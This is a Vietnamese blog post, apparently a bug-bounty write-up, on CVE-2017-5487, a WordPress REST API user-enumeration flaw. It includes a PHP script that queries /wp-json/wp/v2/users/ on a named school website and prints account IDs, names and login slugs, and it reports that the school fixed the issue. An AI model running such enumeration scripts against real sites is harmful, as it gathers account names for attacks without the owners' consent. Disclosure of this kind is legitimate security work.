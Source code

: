 ```yaml
---
title: Tiền thưởng Tiết Lộ Người Dùng WordPress (CVE-2017-5487)
date: 25/03/2022
layout: single
header:
  teaser: /assets/images/wordpress.png
---
```


## Mô Tả

Tiết lộ các tài khoản WordPress thông qua `/wp-json/wp/v2/users/` sử dụng php để dump tên tài khoản, và họ tên đăng bài

Việc tiết lộ thông tin nhạy cảm cho CVE-2017-5487

wp-gồm/rest-api/endpoints/class-wp-rest-users-controller.php trong quá trình triển khai API REST trong WordPress 4.7 trước 4.7.1 không đúng cách hạn chế danh sách tác giả bài đăng, điều này cho phép kẻ tấn công từ xa lấy được thông tin nhạy cảm thông qua yêu cầu wp-json/wp/v2/users.

Điểm cơ bản: 5,3 TRUNG BÌNH

## Hướng dẫn

Thay đổi url trong đoạn code dưới đây

```shell
php file.php
```

[![Language](https://img.shields.io/badge/Lang-php-blue.svg)](https://www.php.net/)

```php
#!usr/bin/php
<?php
header ('Content-type: text/html; charset=UTF-8');


$url= "https://namsaigon.edu.vn/"; # url
$payload="/wp-json/wp/v2/users/";
$urli = file_get_contents($url.$payload);
$json = json_decode($urli, true);
if($json){
    echo "*-----------------------------*\n";
foreach($json as $users){
    echo "[*] ID :  |" .$users['id']     ."|\n";
    echo "[*] Name: |" .$users['name']   ."|\n";
    echo "[*] User :|" .$users['slug']   ."|\n";
    echo "\n";
}echo "*-----------------------------*";}
else{echo "[*] No user";}


?>

```

![](https://www8.0zz0.com/2021/07/15/15/128822449.jpg)

## Kết quả

Lỗ hổng đã được xác nhận qua mail của trường và đã được Fix

![](https://www5.0zz0.com/2023/03/15/10/222638956.png)
